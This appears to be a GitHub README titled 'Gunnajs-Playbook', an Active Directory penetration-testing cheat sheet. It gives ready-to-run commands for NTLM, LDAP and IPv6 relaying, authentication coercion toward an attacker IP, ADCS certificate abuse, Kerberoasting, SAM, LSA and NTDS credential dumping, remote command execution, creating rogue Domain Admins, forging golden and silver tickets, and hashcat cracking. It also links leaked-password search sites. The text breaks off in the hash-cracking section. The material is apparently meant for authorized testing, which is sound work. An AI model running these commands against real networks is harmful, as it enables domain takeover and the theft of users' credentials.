 [https://github.com/NotMedic/NetNTLMtoSilverTicket](https://github.com/NotMedic/NetNTLMtoSilverTicket)

https://www.n00py.io/2022/10/practical-attacks-against-ntlmv1/

https://medium.com/@offsecdeer/a-practical-guide-to-rbcd-exploitation-a3f1a47267d5

https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/adversary-in-the-middle/rdp-mitm

https://www.thehacker.recipes/ad/movement/dacl/addmember

https://www.blackhillsinfosec.com/mitm6-strikes-again-the-dark-side-of-ipv6/

https://github.com/Hackndo/pyGPOAbuse

# Gunnajs-Playbook
How to pentest like a Gunnaj

![alt text](https://github.com/GunzyPunzy/Gunnajs-Playbook/blob/main/anfader-adc.jpg)

# Toolbox
<details>
  <summary> Utils </summary> 

  ### NMAP
  https://nmap.org/
  
  ### linWinPwn - Active Directory Vulnerability Scanner
  https://github.com/lefayjey/linWinPwn
  
  <details>
    <summary> Installation </summary>  
  
  #### Install the dependency NetExec
    
  ```shell
  apt install pipx git
  pipx ensurepath
  pipx install git+https://github.com/Pennyw0rth/NetExec
  ```
    
  #### Git clone the repository and make the script executable
  ```shell
  git clone https://github.com/lefayjey/linWinPwn
  cd linWinPwn; chmod +x linWinPwn.sh
  ```
  #### Install requirements using the `install.sh` script (using standard account)
  ```shell
  chmod +x install.sh
  ./install.sh
  ```
  </details>
  
  ### BloodHound
  https://github.com/BloodHoundAD/BloodHound
  
  <details>
    <summary> Installation </summary> 
    
  ```shell
  sudo apt-get install bloodhound
  ```

  #### Navigate to http://localhost:7474/ 
  
  </details>
  
  ### Responder
  https://github.com/lgandx/Responder
  
  ### NetExec
  https://www.netexec.wiki/
  
  <details>
    <summary> Installation </summary> 
  
  #### Installation
  ```shell
  apt install netexec
  ```
  #### Integrate Bloodhound
  ```shell
  nano ~/.nxc/nxc.conf
  ```
  ```shell
  [BloodHound]
  bh_enabled = True
  bh_uri = 127.0.0.1
  bh_port = 7687
  bh_user = <username>
  bh_pass = <password>
  ```
  
  </details>

  ### BloodyAD
  https://github.com/CravateRouge/bloodyAD
  
  <details>
    <summary> Installation </summary> 
    
  ```shell
  sudo apt-get install bloodyad
  ```
  
  </details>

  ### go-secdump
  https://github.com/jfjallid/go-secdump
  <details>
    <summary> Installation </summary>

  ```shell
  sudo apt install golang-go
  git clone https://github.com/jfjallid/go-secdump
  cd go-secdump/
  go run main.go
  go build
  ```
  </details>

  ### blindsight
  https://github.com/0xdea/blindsight
  <details>
    <summary> Installation </summary>

  ```shell
  =)
  ```
  </details>

  ### mitm6
  https://github.com/dirkjanm/mitm6
  <details>
    <summary> Installation </summary>

  ```shell
  sudo apt install mitm6
  ```
  </details>
  
  ### Evil-WinRM
  https://github.com/Hackplayers/evil-winrm
  
  <details>
    <summary> Installation </summary>
    
  ```shell
  gem install evil-winrm
  ```
  </details>
  
  ### FindUncommonShares
  https://github.com/p0dalirius/FindUncommonShares
  
  <details>
    <summary> Installation </summary> 
    
  ```shell
  git clone https://github.com/p0dalirius/FindUncommonShares
  cd FindUncommonShares/
  pip install -r requirements.txt
  ```
  </details>
  
  ### Impacket
  https://github.com/fortra/impacket
  
  ### pypykatz
  https://github.com/skelsec/pypykatz
  <details>
    <summary> Installation </summary> 
  
  #### Install prerequirements
  ```shell
  pip3 install minidump minikerberos aiowinreg msldap winacl
  ```
  #### Clone this repo
  ```shell
  git clone https://github.com/skelsec/pypykatz.git
  cd pypykatz
  ```
  #### Install it
  ```shell
  python3 setup.py install
  ```
  </details>

  ### certipty
  https://github.com/ly4k/Certipy
 
  ### breach-parse
  https://github.com/hmaverickadams/breach-parse
  
  ### PRET
  https://github.com/RUB-NDS/PRET
  <details>
    <summary> Installation </summary> 
    
  ```shell
  git clone https://github.com/RUB-NDS/PRET && cd PRET
  ```
  ```shell
  python -m pip install colorama pysnmP
  ```
  </details>

</details>

# Wordlists
<details>
  <summary> Lists </summary> 
  
  ### Generate wordlist
  https://zzzteph.github.io/weakpass/
  
  ### Top 10 million
  https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt (8.1 MB)
  
  ### Crackstation
  https://crackstation.net/files/crackstation.txt.gz (14.6 GB)
  
  ### Large p-list
  https://download.g0tmi1k.com/wordlists/large/36.4GB-18_in_1.lst.7z (48.4 GB)
  
  ### Rockyou2021
  https://github.com/ohmybahgosh/RockYou2021.txt (91.6 GB)
</details>

# Leaked password
<details>
  <summary> Sites </summary>   

  ### breachdirectory (free)
  https://breachdirectory.org/

  ### Records Search (free)
  https://search.0t.rocks/

  ### DeHashed
  https://www.dehashed.com/

  ### Snusbase
  https://snusbase.com/

  ### breach-parse
  https://github.com/hmaverickadams/breach-parse
</details>

# Network enumeration
<details>
  <summary> NMAP </summary> 
  
  ### Nmap
  #### Ping scan
  ```shell
  sudo nmap -sP -p -oN <output.txt> <IP/mask>
  ```

  #### Full scan
  ```shell
  sudo nmap -PN -sC -sV -p- -oN <output.txt> <IP/mask>
  ```

  #### smb vuln scan
  ```shell
  sudo nmap -PN --script smb-vuln* -p139,445 -oN <output.txt> <IP/mask>
  ```

  ### Find DC IP
  #### Show domain name and DNS
  ```shell
  sudo mncli dev show eth0
  ```

  #### Show DC IP
  ```shell
  nslookup -type=SRV _ldap._tcp.dc._msdcs.<AD_domain>
  ```

  #### Show DC controllers in cmd
  ```shell
  nltest /dclist:<domainname>
  ```
</details>

<details>
  <summary> NetExec host enumeration </summary> 
  
  #### NetExec map network hosts 
  ```shell
  NetExec smb <subnet>
  ```
  
</details>

# Authentication
    
<details>
  <summary> NetExec domain authentication </summary> 

  #### Password
  ```shell
  sudo NetExec smb <Domain_Controller_IP> -u <AD_user> -p <AD_password>
  ```

  #### Pass-the-Hash
  ```shell
  sudo NetExec smb <Domain_Controller_IP> -u <AD_user> -H <hash[LM:NT]> 
  ```

  #### Kerberos
  ```shell
  sudo NetExec smb <Domain_Controller_IP> -u <AD_user> -k -p <AD_password>
  ```

  #### Using kcache

  ```shell
  export KRB5CCNAME=<Kerberos_ticket>
  ```

  ```shell
  sudo NetExec smb <Domain_Controller_IP> -u <AD_user> --use-kcache
  ```

  #### Pass-the-Certificate
  ```shell
  sudo NetExec smb <Domain_Controller_IP> -u <AD_user> ---pfx-cert <user.pfx>
  ```

</details> 
  
<details>
  <summary> NetExec local authentication </summary> 
  
  ```shell
  NetExec smb <target_IP> -u <AD_user> -H <hash[LM:NT]> --local-auth 
  ```

</details> 

<details>
  <summary> NetExec password spray </summary> 
  
  ### Spray a password on a user list
  ```shell
  NetExec smb <Domain_Controller_IP> -u users.txt -p <password> --continue-on-success
  ```

</details> 

# Acitve directory enumeration

<details>
  <summary> LDAPDomainDump </summary> 

#### Collect domain info
```shell
ldapdomaindump -u <Domain>\\<AD_user> -p <AD_password> <Domain_Controller_IP>
```

</details>

<details>
  <summary> NetExec active users </summary> 

#### Get what users are enabled
```shell
NetExec ldap <Domain_Controller_IP> -u <AD_user> -p <AD_password> --active-users
```

</details>

<details>
  <summary> NetExec password policy </summary> 

#### Get the password policy of the domain
```shell
NetExec smb <Domain_Controller_IP> -u <AD_user> -p <AD_password> --pass-pol
```

</details>

<details>
  <summary> NetExec BloodHound dump all info </summary> 

#### Dump 
```shell
NetExec ldap <Domain_Controller_IP> -d <Domain> -u <AD_user> -p <AD_password> --bloodhound --collection All
```

</details>

<details>
  <summary> BloodHound mark all relevant groups as highvalue </summary> 

#### Query
```shell
MATCH (x:Group)
WHERE x.highvalue=true
MATCH p=shortestPath((n:Group)-[r*1..]->(x)) 
WHERE x <> n
AND NONE (r in relationships(p) WHERE type(r) = "CanRDP")
SET n.highvalue = true
RETURN http://n.name, n.highvalue
```

</details>

<details>
  <summary> NetExec enumerate null sessions </summary> 

#### Check if Null Session is enabled
```shell
NetExec smb <Domain_Controller_IP> -u '' -p ''
NetExec smb <Domain_Controller_IP> -u '' -p '' --shares
NetExec smb <Domain_Controller_IP> -u '' -p '' --pass-pol
NetExec smb <Domain_Controller_IP> -u '' -p '' --users
NetExec smb <Domain_Controller_IP> -u '' -p '' --groups
```

</details>

<details>
  <summary> NetExec enumerate guest logon </summary> 

#### Check if domain guest account or the local guest account is enabled
```shell
NetExec smb <Domain_Controller_IP> -u 'a' -p ''
NetExec smb <Domain_Controller_IP> -u 'a' -p '' --shares
```

</details>

<details>
  <summary> NetExec enumerate logged on users </summary> 

####  Domain account
```shell
NetExec smb <target_IP> -u <AD_user> -p <AD_password> -H <hash[LM:NT]> --reg-sessions
```

####  Domain account with local admin rights 
```shell
NetExec smb <target_IP> -u <AD_user> -p <AD_password> -H <hash[LM:NT]> --loggedon-users
```

####  Local account with local admin rights 
```shell
NetExec smb <target_IP> -u <local_user> -H <hash[LM:NT]> --local-auth --loggedon-users
```

</details>

<details>
  <summary> linWinPwn </summary> 
  
  ### Unauthenticated
  - Module ad_enum
      - RID bruteforce using netexec
      - Anonymous enumeration using netexec, enum4linux-ng, ldapdomaindump, ldeep
      - Pre2k authentication check on collected list of computers
  - Module kerberos
      - kerbrute user spray
      - ASREPRoast using collected list of users (and cracking hashes using john-the-ripper and the rockyou wordlist)
      - Blind Kerberoast
      - CVE-2022-33679 exploit
  - Module scan_shares
      - SMB shares anonymous enumeration on identified servers
  - Module vuln_checks
      - Enumeration for WebDav, dfscoerce, shadowcoerce and Spooler services on identified servers
      - Check for ms17-010, zerologon, petitpotam, nopac, smb-sigining, ntlmv1, runasppl weaknesses
  ```shell
   sudo ./linWinPwn.sh -t <Domain_Controller_IP_or_Target_Domain> -M user <output_dir>
  ```

  ### With AD-user credentials 
  - DNS extraction using adidnsdump
  - Module ad_enum
      - BloodHound data collection
      - Enumeration using netexec, enum4linux-ng, ldapdomaindump, windapsearch, SilentHound, ldeep
          - Users
          - MachineAccountQuota
          - Password Policy
          - Users' descriptions containing "pass"
          - ADCS
          - Subnets
          - GPP Passwords
          - Check if ldap-signing is enforced, check for LDAP Relay
          - Delegation information
      - netexec find accounts with user=pass 
      - Pre2k authentication check on domain computers
      - Extract ADCS information using certipy and certi.py

  - Module kerberos
      - kerbrute find accounts with user=pas
      - ASREPRoasting (and cracking hashes using john-the-ripper and the rockyou wordlist)
      - Kerberoasting (and cracking hashes using john-the-ripper and the rockyou wordlist)
      - Targeted Kerberoasting (and cracking hashes using john-the-ripper and the rockyou wordlist)
  - Module scan_shares
      - SMB shares enumeration on all domain servers using smbmap and cme's spider_plus
      - KeePass files and processes discovery on all domain servers
  - Module vuln_checks
      - Enumeration for WebDav, dfscoerce, shadowcoerce and Spooler services on all domain servers
      - Check for ms17-010, ms14-068, zerologon, petitpotam, nopac, smb-signing, ntlmv1, runasppl weaknesses
  - Module mssql_enum
      - Check mssql privilege escalation paths
  ```shell
  sudo ./linWinPwn.sh -t <Domain_Controller_IP_or_Target_Domain> -u <AD_user> -p <AD_password> -o <output_dir>
  ```
</details>

# Share enumeration

<details>
  <summary> List readable or writable shares </summary> 

```shell
NetExec smb <target_IP> -u AD_user -p <password>  --shares --filter-shares READ WRITE
```

</details>

<details>
  <summary> List uncommon shares and export as xlsx </summary> 

```shell
python3 ./FindUncommonShares.py -au AD_user -ap <password> -ad <AD_domain> -ai <Domain_Controller_IP> --readable --export-xlsx shares
```

</details> 

<details>
  <summary> Impacket smbclient </summary> 
  
### Passord authentication
```shell
impacket-smbclient <AD_domain>/<username>:<password>@<target_IP>
```

### Pass-the-Hash
```shell
impacket-smbclient -hashes <hash[LM:NT]> <username>:@<target_IP>
```

</details> 

<details>
  <summary> Mount and unmount shares </summary> 

### Mount share
```shell
sudo mount.cifs <//ip/folder> <./folder> -o user=<username>,password=<password>,dom=<AD_domain>
```

### Unmount share
```shell
sudo umount <./folder>
```

### Search for keywords in files
```shell
grep -i <keyword> *
```

</details> 

# Computer accounts 

<details>
  <summary> NetExec MachineAccountQuota </summary> 

#### Retrieve the MachineAccountQuota 
```shell
NetExec ldap <Domain_Controller_IP> -u <AD_user> -p <AD_password> -M maq
```

</details>

<details>
  <summary> impacket-addcomputer </summary> 

#### Create a computer account
```shell
impacket-addcomputer -dc-ip <Domain_Controller_IP> -computer-name <Computer_Name> -computer-pass '<computer_password>' '<AD_domain>/<AD_user>:<AD_password>'
```

</details>

<details>
  <summary> Pre-Windows 2000 computers </summary> 

#### NetExec pre2k - obtain tickets
```shell
NetExec ldap <Domain_Controller_IP> -u <AD_user> -p <AD_password> -M pre2k
```

</details>

# MITM and Relaying
<details>
  <summary> Responder </summary> 
  
  ### Kickstart responder
  ```shell
  sudo responder -I eth0
  ```

  Switches for Responder
  * -d = DHCP 
  * -D = DHCP-DNS
  * -w = WPAD
  * -F = Force WPAD atuh
  * --lm = Force ntlmv1
  * --disable-ess = No ESS (Extended Session Security
  
 </details>
 <details>
  <summary> NetExec lnkfile with slinky </summary> 
  
  ### Creates a lnk file for a share with read/write rights
  ```shell
  netexec smb <Target_IP> -u <AD_user> -p <AD_password> -M slinky -o NAME=<filename> SERVER=<attacker_IP>
  ```
   
  ### Remove the lnk file
  ```shell
  netexec smb <Target_IP> -u <AD_user> -p <AD_password> -M slinky -o NAME=<filename> SERVER=<attacker_IP> CLEANUP=True
  ```
    
</details>
<details>
  <summary> NTLM-relay </summary>   

  ### Evaluate no smb-signing and create an IP txt file for NTLMRelayx
  ```shell
  netexec smb <IPs> --gen-relay-list <nosmbsigning.txt>
  ```

  ### NTLMRelayx
  ```shell
  sudo impacket-ntlmrelayx -of <outfile.txt> -tf <nosmbsigning.txt> -smb2support
  ```

  ### go-secdump NTLM Relaying
  ```shell
  ./go-secdump --host <target> -n --relay
  ```

  ### Disbale SMB and HTTP in Responder.conf
  ```shell
  [Responder Core]

  ; Servers to start
  SQL = On
  SMB = Off
  RDP = On
  Kerberos = On
  FTP = On
  POP = On
  SMTP = On
  IMAP = On
  HTTP = Off
  HTTPS = On
  DNS = On
  LDAP = On
  DCERPC = On
  WINRM = On
  SNMP = Off
  ```

### Kicksart responder then
  ```shell
  sudo responder -I eth0 
  ```
</details>

<details>
  <summary> NTLMv1-relay </summary>   

  ### NTLMRelayx delegate access if NTLMv1 is enabled
  #### Authentication can be forced via NetExec's coerce_plus Module, check if the answer is in NTLMv1
  ```shell
  sudo python3 ntlmrelayx.py -t ldaps://<target> --remove-mic -smb2support --delegate-access
  ```

</details>

<details>
  <summary> LDAP-relay </summary>   

  ### Evaluate no ldap-signing and create an IP txt file for NTLMRelayx
  ```shell
  NetExec ldap <IPs> -d <Domain_Name> -u <AD_user> -p <AD_password> -M ldap-checker
  ```

  ### NTLMRelayx escalate user to Enterprise Admins (DCSync rights)
  ```shell
  sudo impacket-ntlmrelayx -t ldaps://<Domain_Controller_IP> --escalate-user <AD_user>
  ```

  ### NTLMRelayx delegate access
  ```shell
  sudo impacket-ntlmrelayx -t ldaps://<Domain_Controller_IP> --delegate-access
  ```

  ### Disbale SMB and HTTP in Responder.conf
  ```shell
  [Responder Core]

  ; Servers to start
  SQL = On
  SMB = Off
  RDP = On
  Kerberos = On
  FTP = On
  POP = On
  SMTP = On
  IMAP = On
  HTTP = Off
  HTTPS = On
  DNS = On
  LDAP = On
  DCERPC = On
  WINRM = On
  SNMP = Off
  ```

### Kicksart responder then
  ```shell
  sudo responder -I eth0 
  ```
</details>

<details>
  <summary> mitm6-relay </summary>   

  ### mitm6
  ```shell
  sudo mitm6 -d <Domain_Name>
  ```

  ### NTLMRelayx 
  ```shell
  impacket-ntlmrelayx -6 -t ldaps://<Domain_Controller_IP> -wh fakewpad.<Domain_Name> -l loot 
  ```

</details>

<details>
  <summary> Kerberos-relay </summary>   

  ### In the works
  ```shell
  ---
  ```

</details>

<details>
  <summary> NetExec coerce_plus </summary> 
  
  ### NetExec Coerce Authentication
  ```shell
  NetExec smb <target> -u <AD_user> -p <AD_password> -M coerce_plus -o LISTENER=<AttackerIP> METHOD=<method>
  ```
  ### Methods
  * Petitpotam
  * DFSCoerce
  * ShadowCoerce
  * Printerbug
  * MSEven

</details> 

# Delegation abuse

<details>
  <summary> BloodHound query for Delegation rights </summary> 
  
  ```shell
  MATCH q=(u)-[:GenericWrite|GenericAll|WriteDacl|
WriteOwner|Owns|WriteAccountRestrictions|AllowedToAct|AllowedToDelegate]->(:Computer) WHERE NOT
u.objectid ENDS WITH "-512" AND NOT
u.objectid ENDS WITH "-519" AND NOT
u.objectid ENDS WITH "-544" AND NOT
u.objectid ENDS WITH "-548" RETURN q
  ```
</details> 

<details>
  <summary> Netexec misconfigured delegation </summary> 
  
  ```shell
  NetExec ldap <Domain_Controller_IP> -u <AD_user> -p <password> --find-delegation
  ```
</details> 

<details>
  <summary> Netexec trusted for delegation </summary> 

  ```shell
  NetExec ldap <Domain_Controller_IP> -u <AD_user> -p <password> --trusted-for-delegation
  ```
    
</details> 
    
# AD Certificates

<details>
  <summary> NetExec list all PKI enrollment servers </summary> 
  
  ```shell
  NetExec ldap <Domain_Controller_IP> -u <AD_user> -p <password> -M adcs
  ```
</details> 

<details>
  <summary> Certipy find vulnerable certificates </summary> 
  
  ```shell
  certipy find -u <AD_user> -p <password> -dc-ip <Domain_Controller_IP> -vulnerable -stdout -enabled -text -json
  ```
</details> 

<details>
  <summary> ESC1 </summary> 

  ```shell
  certipy req -u <AD_user>\@<domain> -p <password> -dc-ip <Domain_Controller_IP> -ca <Certificate_authorities> -target <target_server> -template <vulnerable_template> -upn AD_user@<domain> -sid <user_SID>
  ```
</details> 

<details>
  <summary> ESC4 </summary> 

  ```shell
  certipy template -u <AD_user>\@<domain> -p <password> -dc-ip <Domain_Controller_IP> -target <target_server> -template <vulnerable_template> -write-default-configuration
  ```
</details> 

<details>
  <summary> ESC8 </summary> 
  
  ### http
  ```shell
  certipy relay -target <target_server> -ca <Certificate_authorities> -template <vulnerable_template>
  ```

  ### https
  ```shell
  ntlmrelayx.py -t https://<target_server>/certsrv/certfnsh.asp -smb2 --adcs --template <vulnerable_template>
  ```
  #### --template 'Domain Controller' can be most times be used

  ### NetExec Coerce Authentication
  ```shell
  NetExec smb <target> -u <AD_user> -p <AD_password> -M coerce_plus -o LISTENER=<AttackerIP> METHOD=<method>
  ```
  ### Methods
  * Petitpotam
  * DFSCoerce
  * ShadowCoerce
  * Printerbug
  * MSEven
    
</details> 

# Kerberoasting & ASREPRoast
<details>
  <summary> Kerberoasting </summary> 

  ```shell
  NetExec ldap <Domain_Controller_IP> -u <AD_user> -p <password> --kerberoasting <output>.txt
  ```
  </details> 

  <details>
  <summary> ASREPRoast </summary> 

  ```shell
  NetExec ldap <Domain_Controller_IP> -u <AD_user> -p '' --asreproast <output>.txt
  ```

</details> 

# Credential dumping

<details>
  <summary> Domain authentication </summary> 

  ### Dump NT:hash with masky with domain user
  ### Get ADCS server name
  ```shell
  NetExec ldap <target_IP> -u <AD_user> -p <password> -H <hash[LM:NT]]> -M adcs
  ```

  ### Retrieve the NT hash using PKINIT
  ```shell
  NetExec ldap <target_IP> -u <AD_user> -p <password> -H <hash[LM:NT]> -M masky -o CA=<'ADCS_server_name'>
  ```
  
  ### NetExec Dump SAM with domain user
  ```shell
  NetExec smb <target_IP> -u <AD_user> -p <password> -H <hash[LM:NT]]> --sam
  ```

  ### go-secdump Dump SAM with domain user
  ```shell
  ./go-secdump --domain <Domain_Controller_IP> --host <target_IP> --user <AD_user> ---pass <password> --hash <hash[LM:NT]]> --sam
  ```
  
  ### NetExec Dump LSA with domain user
  ```shell
  NetExec smb <target_IP> -u <AD_user> -p <password> -H <hash_NT]> --lsa
  ```
  ### go-secdump Dump LSA with domain user
  ```shell
  ./go-secdump --domain <Domain_Controller_IP --host <target_IP> --user <AD_user> ---pass <password> --hash <hash[LM:NT]]> --lsa
  ```

</details> 

<details>
  <summary> Local authentication </summary> 
  
  ### NetExec Dump SAM on local computer
  ```shell
  NetExec smb <target_IP> -u <local_user> -p <password> -H <hash[LM:NT]> --local-auth --sam
  ```

  ### sec-dump Dump SAM on local computer
  ```shell
  ./go-secdump --domain <Domain_Controller_IP --host <target_IP> --user <local_user> ---pass <password> --hash <hash[LM:NT]]> --sam --local
  ```
  
  ### NetExec Dump LSA on local computer
  ```shell
  NetExec smb <target_IP> -u <local_user> -p <password> -H <hash[LM:NT]> --local-auth --lsa
  ```

  ### go-secdump Dump LSA on local computer
  ```shell
  ./go-secdump --domain <Domain_Controller_IP --host <target_IP> --user <local_user> ---pass <password> --hash <hash[LM:NT]]> --lsa --local
  ```

  ### NetExec Dump lsass with hash_spider to recursively using BloodHound to find local admins path (adminTo)
  ```shell
  NetExec smb <target_IP> -u <username> -p <password> -H <hash[LM:NT]> --local-auth -M hash_spider
  ```

  ### Stored User Names and Passwords on Windows Credential Manager
  ```shell
  rundll32.exe keymgr.dll KRShowKeyMgr
  ```
  
</details> 

<details>
  <summary> NetExec dump with ReadLAPSPassword rights </summary> 

  ### Check if the user can read LAPS
  ```shell
  NetExec ldap <AD_domain> -u <username> -p <password> -H <hash[LM:NT]> -M laps
  ```
  
  ### Dump SAM 
  ```shell
  NetExec smb <target_IP> -u <username> -p <password> -H <hash[LM:NT]> -M laps --sam
  ```
  
  ### Dump LSA 
  ```shell
  NetExec smb <target_IP> -u <username> -p <password> -H <hash[LM:NT]> --M laps --lsa
  ```
  
</details> 

<details>
  <summary> Run blindsigt from impackets smb share </summary> 

  ### Starting a SMB Server
  ```shell
  impacket-smbserver.py <shareName> <sharePath>
  ```
  
  ### Run blindsight from host 
  ```shell
  \\<target_IP>\<shareName>\blindsight.exe
  ```

  ### Retrieve the file
  ```shell
  lget <output>.log
  ```

  ### Unscramble memory dump:
  ```shell
  blindsight.exe <output>.log
  ```
  
</details> 

<details>
  <summary> Examine lsass dump with pypykatz </summary> 

```shell
pypykatz lsa minidump lsass.DMP
```
</details> 

<details>
  <summary> NetExec Dump the NTDS.dit from target DC (DCSync) </summary> 

#### Dump all user hashes
```shell
NetExec smb <Domain_Controller_IP> -d <AD_domain> -u <AD_user> -p <AD_password> --ntds
```

#### Dump a specific user hash
```shell
NetExec smb <Domain_Controller_IP> -d <AD_domain> -u <AD_user> -p <AD_password> --ntds --user <AD_user>
```
</details> 

# Remote Code Execution

<details>
  <summary> NetExec </summary> 
  
  ### Executes command via the follwoing protocols: 
  * `wmiexec` executes commands via WMI
  * `atexec` executes commands by scheduling a task with windows task scheduler
  * `smbexec` executes commands by creating and running a service
  
  #### command
  ```shell
  NetExec <protocol> <target_IP> -u <username> -p <password> -H <hash[LM:NT]]> -x <command>
  ```
  #### PowerShell
  ```shell
  NetExec <protocol> <target_IP> -u <username> -p <password> -H <hash[LM:NT]> -X <command>
  ```
  #### Task Scheduler
  ```shell
  NetExec <protocol> <target_IP> -u <username> -p <password> -H <hash[LM:NT]> -M schtask_as -o USER=<logged-on-user> CMD=<cmd-command>
  ```
</details> 

<details>
  <summary> Evil-WinRM </summary> 
  
  ```shell
  evil-winrm -i <target_IP> -u <username> -p <password> -H <hash[LM:NT]>
  ```
</details> 

<details>
  <summary> pth-rpcclient </summary> 

  ```shell
  pth-rpcclient -U <AD_domain>/<username>%<hash[LM:NT]> <Domain_Controller_IP>
  ```
</details> 

<details>
  <summary> pth-net add new domain admin </summary> 

  ```shell
  pth-net rpc group addmem "Domain Admins" <username> -U <AD_domain>/<username>%<hash[LM:NT]> -S <Domain_Controller_IP>
  ```
</details> 

<details>
  <summary> Command to add a new Domain Admin </summary> 
  
  #### Create the new user
  ```Shell
  net user <username> <password> /add /domain
  ```

  #### Add the new user to the Domain Admins group
  ```Shell
  net group "Domain Admins" <username> /add /domain
  ```

  #### Add user to Domain Admins by creating a scheduled task
  ```Shell
  schtasks /create /tn "AddDomainAdmin" /tr "net group \"domain admins\" <AD_User> /add /domain" /sc once /st 08:30 /ru "<Domain_Name\<Privilged_AD_User>"
  ```

  #### Running the scheduled task
  ```Shell
  schtasks /run /tn "AddDomainAdmin"
  ```

  #### Add an user to the domain admin
  ```ps
  powershell.exe \"Invoke-Command -ComputerName DC01 -ScriptBlock {Add-ADGroupMember -Identity 'Domain Admins' -Members USER.NAME}\"
  ```
</details> 

# AV Evasion

<details>
  <summary> NetExec </summary> 
  
  </details> 

</details> 
  
# golden and silver tickets

<details>
  <summary> Silver tickets </summary> 

| Service Type                               | Service Silver Tickets   |
|--------------------------------------------|--------------------------|
| WMI                                        | HOST, RPCSS              |
| PowerShell Remoting                        | HOST, HTTP, WSMAN, RPCSS |
| WinRM                                      | HOST, HTTP               |
| Scheduled Tasks                            | HOST                     |
| Windows File Share (CIFS)                  | CIFS                     |
| LDAP operations including Mimikatz DCSync  | LDAP                     |
| Windows Remote Server Administration Tools | RPCSS, LDAP, CIFS        |


</details>

<details>
  <summary> Tickets </summary> 
  
#### Get user SID value by using the Windows Terminal
```cmd
wmic useraccount where name="USER" get sid
```

#### Silver ticket
```shell
python3 ticketer.py -nthash <nthash> -domain-sid <domain-sid> -domain <AD_domain> -dc-ip <Domain_Controller_IP> -spn <service>/<AD_domain>l <user>
```
#### Golden ticket
```shell
python3 ticketer.py -nthash <nthash> -domain-sid <domain-sid> -domain <AD_domain> -dc-ip <Domain_Controller_IP> <user>
```
#### Set the ticket for impacket use
```shell
export KRB5CCNAME=<TGS_ccache_file>
```

#### List tickets
```shell
klist
```

#### Execute remote commands with any of the following by using the TGT
```shell
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

</details>

# Printers
<details>
  <summary> PRET </summary> 

  ### Nmap printers
  ```shell
  nmap -p 9100 <IP/mask>
  ```
  ### cheat sheet
  ```shell
  http://hacking-printers.net/wiki/index.php/Printer_Security_Testing_Cheat_Sheet
  ```
  ### Kickstart PRET 
  ```shell
  pret.py target {ps,pjl,pcl}
  ```
</details>

# Hash cracking
<details>
  <summary> Attack modes </summary> 

  ### Dictionary attack (-a 0)
  #### Tries all words in a list
  ```shell
  hashcat64.exe -m <hash_type> -a 0 <hashes.txt> <passlist.txt> -o cracked.txt
  ```

  ### Combinator attack (-a 1)
  #### Combines words from multiple wordlists
  ```shell
  hashcat64.exe -m <hash_type> -a 1 <hashes.txt> <passlist1.txt> <passlist2.txt> -o cracked.txt
  ```

  ### Brute force (-a 3)
  #### Tries all characters from given charsets
  ```shell
  hashcat64.exe -m <hash_type> -a 3 <hashes.txt> ?a?a?a?a?a?a?a?a --increment -o cracked.txt
  ```

  ### Hybrid (-a 6)
  #### Combines wordlists+masks
  ```shell
  hashcat64.exe -m <hash_type> -a 6 <hashes.txt> <passlist.txt> ?a?a?a?a?a?a?a?a --increment -o cracked.txt
  ```

  ### Hybrid (-a 7)
  #### Combines masks+wordlists
  ```shell
  hashcat64.exe -m <hash_type> -a 7 <hashes.txt> ?a?a?a?a?a?a?a?a <passlist.txt> --increment -o cracked.txt
  ```

 #### Built-in charsets
 * ?l = abcdefghijklmnopqrstuvwxyz
 * ?u = ABCDEFGHIJKLMNOPQRSTUVWXYZ
 * ?d = 0123456789
 * ?h = 0123456789abcdef
 * ?H = 0123456789ABCDEF
 * ?s = «space»!"#$%&'()*+,-./:;<=>?@[\]^_`{|}~
 * ?a = ?l?u?d?s
 * ?b = 0x00 - 0xff
 
 #### Password length increment
* --increment-min <number>
* --increment-max <number>
</details>

<details>
  <summary> Hash types </summary> 

  ### LM

  ```shell
  hashcat64.exe -m 3000 -a 3 <LM-hashes.txt> -o cracked.txt
  ```

  ### NTLM
  ```shell
  hashcat64.exe -m 1000 -a 3 <NTLM-hashes.txt> -o cracked.txt
  ```
  dcsync
  ```shell
  hashcat64.exe -m 1000 -a 3 --username <NTLM-hashes.txt> -o cracked.txt
  ```

  ### NTLMv1
  ```shell
  hashcat64.exe -m 5500 -a 3 <NTLMv1-hashes.txt> -o cracked.txt
  ```

  ### NTLMv2
  ```shell
  hashcat64.exe -m 5600 -a 0 <NTLMv2-hashes.txt> <passlist.txt> -o cracked.txt
  ```

  ### Kerberos ASREP
  ```shell
  hashcat64.exe -m 18200 -a 0 <asrep-hashes.txt> <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 TGS
  ```shell
